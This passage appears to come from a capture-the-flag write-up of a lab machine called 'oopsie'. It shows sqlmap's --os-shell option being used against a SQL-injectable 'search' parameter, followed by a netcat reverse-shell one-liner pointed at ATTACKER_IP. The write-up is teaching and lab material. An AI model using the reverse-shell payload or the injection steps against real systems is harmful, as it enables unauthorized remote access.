 Finally, we run `--os-shell` so that if we do manage to carry out an SQLi, we can open an interactive OS shell where we can run commands.

After the scan is done, we find out that `search` is vulnerable to many different types of injection payloads:

![screenshot12](../assets/images/oopsie/screenshot12.png)

Using those payloads, `sqlmap` then opens a shell for us:

![screenshot13](../assets/images/oopsie/screenshot13.png)

Nice, now that we can run commands, let's try to open a reverse shell. I'll be using the following payload from [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md).

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc ATTACKER_IP 4444 >/tmp/f
```

![screenshot14](../assets/images/oopsie/screenshot14.png)
